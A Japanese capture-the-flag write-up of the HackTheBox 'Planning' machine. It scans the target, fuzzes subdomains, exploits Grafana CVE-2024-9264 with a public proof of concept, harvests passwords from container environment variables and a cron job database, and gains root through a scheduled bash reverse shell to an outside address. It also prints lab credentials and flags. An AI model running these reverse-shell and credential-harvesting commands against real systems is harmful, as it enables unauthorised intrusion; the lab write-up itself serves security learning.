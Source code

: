 # Planning WriteUps 

- **[HackTheBox_Planning](https://app.hackthebox.com/machines/Planning)**

- admin / passwords
```
admin / 0D5oT70Fq13EvB5r
```

- WorkSpeace
```
mkdir Planning && cd Planning
```

## 調査
まず、targetであるip address(```10.10.11.68```)に```nmap```もしくは```rustscan```でもいいので
開いているサービスを調べる
### 付け加え
こうするといちいちipを入力しなくてもいい
```
export ip="10.10.11.68"
# 使用するときは $ipと使う
```

### Nmap Options
- nmap cmd 
```
nmap $ip -sC -sV -sC -oN target_port.log -T4  
```

- scan結果
```
# Nmap 7.95 scan initiated Tue Jul  1 14:53:40 2025 as: /usr/lib/nmap/nmap -sS -sV -sC -oN target_port.log -T4 10.10.11.68
Nmap scan report for 10.10.11.68
Host is up (0.35s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  1 14:54:05 2025 -- 1 IP address (1 host up) scanned in 24.95 seconds
```

これらから、22,80が開いていることがわかる。
また、```_http-title: Did not follow redirect to http://planning.htb/```から```/etc/hosts```に
```10.10.11.68   planning.htb```と指定する必要がある。

### http://planning.htbにて
contactなどの送信フォームなどでスクリプトを発火させることができるかと検証をしたが
特に見当たらなかったので```ffuf```でsubdomainを探すことにした

今回使用したwordlilst
- **[Seclists](https://github.com/danielmiessler/SecLists)**

gitでclone
```
git clone https://github.com/danielmiessler/SecLists.git
```
ちなみに今後様々な問題を解くうえでこういったwordlistsは```/usr/share```の下に設けるといいだろう

僕の場合、```Planning``` wordspaceに
```
cat /usr/share/Seclists/Discoverty/DNS/subdomains-* >> subdomain.txt
```
とすべてのsubdomainを```subdomain.txt```でまとめて使用した。

### ffuf Options
```
ffuf -w subdomain.txt -u http://planning.htb -c -H "Host :FUZZ.planning.htb" -o ffuf.log
```
これにより、```grafana```というsubomainが見つかる。
もちろん、```grafana.planning.htb```を```/etc/hosts```に追加しなければならないので
```10.10.11.68   planning.htb grafana.planning.htb```となる。

そこから、```http://grafana.planning.htb```にアクセスすると
```/login```ページに飛ばされる。
そこから有力な情報がないか調べた際に
Version情報があり、```Grafana v11.0.0 (83b9528bce)```と記載されてたため
そこからExploitを探索し```CVE-2024-9264```が見つかり、
Githubから**[Poc](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)**を使用し

先に```netcat```で待ち受けし、
```
nc -lvnp 1234
```

その後、以下のoptionで```poc.py```スクリプトを実行
```
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.11.68 --reverse-port 1234 
```

###　Environment
無事に入れたので
まず、このマシンがコンテナどうか```env```で調べます。
```
GF_PATHS_LOGS=/var/log/grafana
_=dockerenv
```
この情報から```Docker````のコンテナ内というのがわかりました。
また、
```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```
これらの情報から```enzo``` Userと```RioTecRANDEntANT!``` Passwordを取得できた。

## User Flag

```
ssh -p 22 enzo@10.10.11.68
```
から```RioTecRANDEntANT!```とpasswordを入力し、
user.txtからFlagを取得
```
86c057f17190dee41a5c5295959d573d
```
### サービスチェック
他にもこのマシン上でどのサービスが開いているか調べるために
```
ss -tul
```
で調べた結果
```
127.0.0.1:8000
```
が開いており、それを自分のマシンへと転送するために
```
ssh -p22 enzo@10.10.11.68 -L 8000:127.0.0.1:8000
```
とし、
自分のマシンから```http://127.0.0.1:8000```にアクセス
すると、loginホップアップが出たので
一旦、```10.10.11.68```のsshに戻って
そこでlogin情報で必要な情報を```linpeas.sh```を使ってみる。
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
で自分のマシンにダウンロードします。
targetマシンである```10.10.11.68```に持っていきたいので
自分のマシンで以下のcmdを実行
```
python3 -m http.server 8080
```

これでHTTP Serverが開くので
targetマシン上で
```
wget http://10.10.XX.XX:8080/linpeas.sh
```
で持ってきて
```
chmod +x linpeas.sh
```
実行権限を与えて```./linpeas.sh```でscanします。

SQL File Pathから```Found /var/lib/command-not-found/commands.db```が出力され
```
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```
から、
```
root /  P4ssw0rdS0pRi0T3c
```
を発見！

試しにlogin ホップアップに入力
無事、loginできました！！

その後、新規で
```
bash -c 'exec bash -i >& /dev/tcp/10.10.16.3/1234 0>&1'
```
を保存し
先に```netcat```で待ち受けし
```
nc -lvnp 1234 
```

そして、```run now```で実装します。

そうするとshellがとれて```id```から
```
uid=0(root) gid=0(root) groups=0(root)
```
わかり、```/root/root.txt```

## Root Flag
```
0ebacefa1bfc4ad4eca56fa64ba4de02
```

## Completed!!

- 参考の資料(URL)
<br>
https://medium.com/@ypopova3/planning-hackthebox-fd3d5fcb8fc7
<br>
https://qiita.com/notthei/items/c257ef1004345b51a969
